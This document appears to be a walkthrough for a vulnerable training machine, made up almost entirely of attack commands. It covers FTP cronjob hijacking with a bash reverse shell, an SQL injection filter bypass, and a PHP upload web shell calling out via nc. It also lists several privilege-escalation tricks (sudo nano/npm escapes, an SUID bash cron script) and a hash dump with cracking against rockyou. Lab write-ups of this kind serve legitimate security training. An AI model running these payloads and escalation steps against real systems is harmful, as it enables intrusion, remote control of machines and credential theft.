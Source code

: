 ## Initial Access Point 1

1. Log into FTP server (username: anonymous, no password)

```
ftp <ip>
```

2. Download files from /upload folder

```
cd upload
get job.txt
get job_log.txt
```

3. Observe that a cronjob executes the text in job.txt.
4. Modify job.txt with reverse shell command

```
bash -i >& /dev/tcp/<ip>/<port> 0>&1
```

5. Upload modified job.txt file. You will not be able to upload your file without deleting the present one in the FTP server

```
delete job.txt
put job.txt
```

6. Start netcat on separate terminal

```
nc -lvnp <port>
```

## Initial Access Point 2

SQL Injection (since the or gets sanitized, we can do this "oorr"):

```
username = admin' oorr '1' = '1' --
OR
password = admin' oorr '1' = '1' --

# remember to put a space after --
```

## Initial Access Point 3

Upload File Vulnerability (Reverse shell):

1. upload a php file with the following content:

```
<?php
system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <Attacking IP> <Attacking Port> >/tmp/f");
?>
```

2. Use burp suite/python to intercept the upload file request

```
Change the content type to image/png or image/jpeg
```

3. Run the command on your attacking machine:

```
nc -lvnp <Match the port in the php file>
```

4. Go the the following endpoint

```
<Victim IP>:5000/uploads/<filename.php>
```

## Horizontal Escalation Vector 1

```
puttygen /tmp/.sys_cache/.thumb -O private-openssh -o /tmp/converted_id
chmod 600 /tmp/converted_id
ssh -i /tmp/converted_id alice@localhost
```

## Horizontal Escalation Vector 2

```
cat /var/log/flaskapp.log
```

## Horizontal Escalation Vector 3

```
tmux -S /tmp/alice_tmux.sock attach -t shared
```

## Vertical Escalation Vector 1

```
sudo -l

sudo nano
^R^X
bash
```

## Vertical Escalation Vector 2

```
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo npm -C $TF --unsafe-perm i
```

## Vertical Escalation Vector 3

```
vi /opt/tmp.py

#!/usr/bin/env python
import os
import sys
try:
     os.system('chmod +s /bin/bash')
except:
     sys.exit()

# Wait for cron job to run
/bin/bash -ip
```

## Vertical Escalation Vector 4

```
env
psql -h localhost -U "$LAB_DB_USER" -d "$LAB_DB_NAME"
\l
\c labdb
\dt
SELECT * FROM users;

# Get the hash and crack it with hashcat
hashcat -m 3200 pass.hash /usr/share/wordlists/rockyou.txt
```
